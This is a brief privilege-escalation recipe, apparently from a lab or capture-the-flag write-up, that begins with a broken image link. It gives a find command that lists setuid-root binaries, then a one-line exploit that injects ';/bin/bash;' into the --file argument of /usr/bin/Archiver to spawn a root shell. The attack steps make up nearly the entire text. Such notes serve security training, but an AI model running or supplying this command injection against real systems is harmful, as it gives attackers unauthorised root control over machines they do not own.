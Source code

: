 1. Find program with special premissions - find / -perm /4000 -user root -exec ls -ldb {} \; 2>/dev/null
2. Check what the program does
3. Use it to elevate privileges to root - /usr/bin/Archiver --file "archive-me;/bin/bash;"

